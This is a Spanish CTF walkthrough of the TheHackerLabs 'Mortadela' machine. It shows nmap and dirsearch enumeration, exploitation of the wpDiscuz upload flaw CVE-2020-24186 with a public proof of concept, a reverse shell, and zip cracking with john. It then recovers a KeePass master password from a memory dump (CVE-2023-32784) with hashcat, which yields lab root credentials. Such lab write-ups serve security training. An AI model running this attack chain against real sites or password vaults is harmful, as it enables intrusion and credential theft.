 ```yaml
---
title: "Mortadela - WriteUp"
date: Fri Aug 23 2024 11:28:12 GMT+0200 (Central European Summer Time)
categories: [WriteUps, TheHackerLabs, Linux]
tags: [wordpress, CVE-2020-24186, CVE-2023-32784, dotnet, keepass-password-dumper]
image: /assets/img/cabeceras/2024-08-23-mortadela---writeup.jpg
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Fri Apr  5 09:59:23 2024 as: nmap -sCV -p 22,80,3306 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xsl -oN targeted -oX targetedXML 192.168.1.44
Nmap scan report for 192.168.1.44
Host is up (0.00053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 aa:8d:e4:75:bc:f3:f8:5e:42:d0:ee:ca:e2:c4:0b:97 (ECDSA)
|_  256 ae:fd:91:ef:42:71:cb:11:b9:66:97:bf:ec:5b:d6:4b (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, LongColumnFlag, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, FoundRows, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: yi~aH%{bWnCA^76IK}Sf
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:0E:4B:CF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

FUZZ 

Descubrimos que corre un Wordpress:
```bash
$ dirsearch -u http://192.168.0.108 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405113824.png)

Hacemos un escaneo de plugins con NMAP y descubrimos dos, pero uno nos llama la atneción:

```bash
$ nmap -p80 192.168.0.108 --script http-wordpress-enum --script-args http-wordpress-enum.root='/wordpress/',search-limit=1000
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114001.png)


## Explotación

Buscamos vulnerabilidades y encontramos dos que se adaptan perfectamente a la versión:

```bash
$ se wpdiscuz
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114143.png)

Probamos el SearSploit pero no nos convence. Vamos a buscar por la web.

Encontramos este y nos funciona perfectamente. Creamos el archivo con la URL y ejecutamos el plugin.

https://github.com/meicookies/CVE-2020-24186

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114418.png)

```bash
$ ./CVE-2020-24186 site.txt
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114501.png)

Vemos que es vulnerable y nos ha subido un archivo PHP con el que poder subir archivos.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114541.png)

Vamos a probar de subir un shell remoto. El por defecto en estos casos.

Nos ponemos a la espera, subimos el archivo PHP con la web que hemos creado y pa dentro!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114917.png)

Sanitizamos consola y empezamos a enumerar:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405115151.png)

Encontramos un archivo sospechoso en /opt...

Nos lo bajamos a nuestro equipo y vemos que tiene contraseña. Le pasamos john...

```bash
$ zip2john muyconfidencial.zip > confidencial.hash
...
$ john --wordlist=/usr/share/wordlists/rockyou.txt confidencial.hash
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405120859.png)

Contraseña de descompresión: _pinkgirl_

Descomprimimos y mostramos el contenido:

Contiene dos archivos, un dumpeo de keepass y otro que es la BBDD de Keepass:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405121117.png)

Buscamos info y encontramos esto:
https://github.com/vdohney/keepass-password-dumper

Debemos emular un proyecto hecho en C# y pasarle el DUMP del Keepass. Con este programa llamado _dotnet_ creamos una lista de posibles contraseñas para romper la seguridad de la base de datos del Keepass.

Instalamos _dotnet_ para Linux:
https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#manual-install

Nos clonamos el repositorio arriba mencionado y ejecutamos lo siguiente:

```bash
$ dotnet run ../KeePass.DMP passwordlist 
```

-----
## Notas

Si recibimos el error del tipo:

_"/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0."_

Simplemente editamos el archivo _.csproj_ y en la línea con la etiqueta < TargetFramework > indicamos la versión que tengamos, en mi caso tuve que poner la net6.0

---------

Recibiremos la siguiente salida:

```bash
Found: ●9
Found: ●;
Found: ●H
Found: ●[
Found: ● 
Found: ●f

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f, 
3.:	r, 
4.:	i, 
5.:	t, 
6.:	r, 
7.:	i, 
8.:	n, 
9.:	i, 
10.:	1, 
11.:	2, 
12.:	3, 
13.:	4, 
14.:	5, 
Combined: ●{a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f}ritrini12345
16 possible passwords saved in passwordlist. Unknown characters indicated as ●
```

Casi casi tenemos el password. Ahora con con _john_ y _hashcat_ terminaremos la faena:


## Escalada

Obtenemos el hash de la BBDD de Keepass (archivo Database.kdbx):

```bash
$ keepass2john Database.kdbx > database.hash
```

Y por último pasamos _hashcat_ :

```bash
$ hashcat -m 13400 --username database.hash passwordlist
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405124929.png)

Aunque nos haya dado "Exhausted" y nos falte el primer carácter del password podemos intuir cuáles son los candidatos a password final:

```http
Maritrini12345
maritrini12345
```

Abrimos el archivo .kdbx con Keepass o en mi caso ya que trabajo en Linux con _KeePassXC_ y en contraseña probamos la primera con la M mayúscula y bingo! Entramos en la BBDD!

Y nos muestra con gran afecto el password de root!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125330.png)

Credenciales:

```http
root:Juanikonokukunero
```

Las probamos en nuestra consola y...

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125511.png)

Enhorabuena! somos root!

Ya podemos registrar las flags!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130451.png)



![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130041.png)

